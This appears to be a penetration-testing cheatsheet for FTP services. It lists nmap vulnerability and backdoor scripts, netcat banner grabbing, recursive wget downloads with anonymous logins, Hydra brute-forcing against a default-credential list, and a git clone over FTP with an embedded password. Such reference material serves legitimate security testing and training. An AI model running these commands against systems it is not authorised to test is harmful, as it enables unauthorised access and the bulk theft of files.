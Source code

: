 # FTP Exploitation and Enumeration Cheatsheet

## Nmap Vulnerability Script

```bash
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 192.168.1.1
```

## Banner Grabbing

```bash
nc -vn 192.168.1.1 21
```

## FTP Commands

```bash
ls -a   # List all files
binary  # Switch to binary mode
ascii   # Switch to ASCII mode
```

## Download All Files

```bash
wget -m ftp://anonymous:anonymous@192.168.1.1
wget -m ftp://anonymous:anonymous@192.168.1.1:2121
wget -r ftp://anonymous:anonymous@192.168.1.1
wget -m --no-passive ftp://anonymous:anonymous@192.168.1.1
```

## Brute Force FTP with Hydra

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.1
```

## Cloning a Git Repository Over FTP

```bash
git clone ftp://john:password123@test.local:21/.git

